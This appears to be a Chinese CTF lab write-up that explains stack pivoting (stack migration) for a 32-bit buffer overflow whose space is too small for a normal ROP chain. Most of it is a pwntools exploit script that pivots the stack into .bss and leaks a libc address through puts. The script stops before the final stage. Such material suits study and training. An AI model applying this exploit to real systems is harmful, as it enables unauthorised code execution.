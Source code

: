 ```python

```

# lab6

![image-20220813204703138](/assets/img/2022/image-20220813204703138.png)

只溢出了0x40-0x28=24个字节。但是按我的理解，如下图，要实现rop至少也需要4*7=28个字节。所以这题考察的是当栈溢出空间有限的情况下，使用**栈迁移**方法实现利用。

![image-20220813204758459](/assets/img/2022/image-20220813204758459.png)



栈迁移的利用思路：

![栈迁移.drawio](/assets/img/2022/栈迁移.drawio-0569842.svg)

```python
from pwn import *


r = process('./migration')
elf = ELF('./migration')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
# context.log_level='debug'
# raw_input()

r.recvuntil(':\n')

buf1 = elf.bss()+0x500
buf2 = elf.bss()+0x600
read_plt = elf.plt['read']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
leave_ret = 0x08048418 # leave ; ret
pop_ebx_ret = 0x0804836d # pop ebx ; ret

log.info('buf1: {}'.format(hex(buf1)))
log.info('buf2: {}'.format(hex(buf2)))

# stack
p = 'a'*0x28
p += p32(buf1)
p += p32(read_plt)
p += p32(leave_ret)
p += p32(0)
p += p32(buf1)
p += p32(0x100)
r.send(p)

# buf1
p = p32(buf2)
p += p32(puts_plt)
p += p32(pop_ebx_ret)
p += p32(puts_got)
p += p32(read_plt)
p += p32(leave_ret)
p += p32(0)
p += p32(buf2)
p += p32(0x100)
r.send(p)

puts_addr = u32(r.recvuntil('\n')[:-1])
puts_off = libc.symbols['puts']
```